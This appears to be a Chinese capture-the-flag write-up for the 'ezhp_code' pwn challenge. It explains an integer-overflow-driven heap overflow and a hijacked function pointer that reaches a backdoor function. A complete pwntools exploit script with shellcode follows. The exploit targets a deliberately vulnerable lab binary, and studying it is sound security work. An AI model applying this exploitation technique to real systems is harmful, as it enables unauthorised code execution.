





# 2024_vctf_pwn_ezhp_code

checksec文件，没开PIE其中有back_door后门函数





在add_User函数中的malloc_lenth函数中对输入的长度左移了一位。



而read_char函数正常读取长度字符串，这将导致堆溢出漏洞。



并且在init_User函数中check_handle函数会检查增添的user的偏移40处的值是否为0，不为0则执行该存储的地址的函数。那么结合上面的整数溢出设计输入长度即可溢出提前写入释放块，当再次被申请回来时进check_handle函数检查即可劫持控制流。




exp:

```
from pwn import *
import time 
import logging
'''
logging.basicConfig(level = logging.INFO,format = '%(asctime)s - %(name)s - %(levelname)s - %(message)s')
logger = logging.getLogger(__name__)
'''
context.log_level = 'DEBUG'
p = process('./ezhp_code') 
#p=remote('172.20.0.2',10000)
elf=ELF('./ezhp_code')

back_door=elf.symbols['back_door']
def add_User_gdb(user_name, lenth, content):
    p.recvuntil(b'3.exit')
    
    #gdb.attach(p,'''
    #           b check_handle
    #           continue
    #           ''')
    p.sendline(b'1')
    p.interactive()

def add_User(user_name, lenth, content):
    p.recvuntil(b'3.exit')
    p.sendline(b'1')
    p.recvuntil(b'Input your name:')
    p.sendline(user_name)
    p.recvuntil(b'The length you want to say:')
    p.sendline(str(lenth).encode())
    p.recvuntil(b'You say:')
    p.sendline(content)

def del_User():
    p.recvuntil(b'3.exit')
    p.sendline(b'2')


add_User(b'A'*0x10, 10, b'A'*0x10)
add_User(b'A'*0x10, 10, b'A'*0x10)
add_User(b'A'*0x10, 10, b'A'*0x10)

del_User()
del_User()

shellcode = asm(shellcraft.sh())
exp_lenth = 2147483650  
nop_sled = b'\x90' * 0x10
payload = b'A'*0x10 + p64(0) + p64(0xa0) + b'A'*0x28 +p64(back_door)+shellcode
add_User(b'A'*0x10, exp_lenth, payload)
add_User_gdb(b'A'*0x10, 10, b'A'*0x10)

```

